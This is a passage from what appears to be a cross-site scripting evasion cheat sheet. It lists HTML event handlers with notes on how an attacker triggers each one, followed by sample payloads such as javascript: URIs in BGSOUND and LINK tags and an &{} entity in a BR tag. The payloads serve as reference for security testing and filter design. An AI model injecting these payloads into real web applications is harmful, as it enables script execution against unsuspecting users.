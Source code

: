89. `onRowInserted()` (user or attacker would need to insert a row in a
    data source)
90. `onScroll()` (user would need to scroll, or attacker could use the
    `scrollBy()` function)
91. `onSeek()` (the onreverse event fires when the timeline is set to
    play in any direction other than forward)
92. `onSelect()` (user needs to select some text - attacker could auto
    initialize with something like:
    `window.document.execCommand("SelectAll");`)
93. `onSelectionChange()` (user needs to select some text - attacker
    could auto initialize with something like:
    `window.document.execCommand("SelectAll");`)
94. `onSelectStart()` (user needs to select some text - attacker could
    auto initialize with something like:
    `window.document.execCommand("SelectAll");`)
95. `onStart()` (fires at the beginning of each marquee loop)
96. `onStop()` (user would need to press the stop button or leave the
    webpage)
97. `onStorage()` (storage area changed)
98. `onSyncRestored()` (user interrupts the element's ability to play
    its media as defined by the timeline to fire)
99. `onSubmit()` (requires attacker or user submits a form)
100. `onTimeError()` (user or attacker sets a time property, such as
     dur, to an invalid value)
101. `onTrackChange()` (user or attacker changes track in a playList)
102. `onUndo()` (user went backward in undo transaction history)
103. `onUnload()` (as the user clicks any link or presses the back
     button or attacker forces a click)
104. `onURLFlip()` (this event fires when an Advanced Streaming Format
     (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia
     Extensions) media tag, processes script commands embedded in the
     ASF file)
105. `seekSegmentTime()` (this is a method that locates the specified
     point on the element's segment time line and begins playing from
     that point. The segment consists of one repetition of the time line
     including reverse play using the AUTOREVERSE attribute.)

## BGSOUND

<BGSOUND SRC="javascript:alert('XSS');">

## & JavaScript includes

`<BR SIZE="&{alert('XSS')}">`

## STYLE sheet

<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

## Remote style sheet
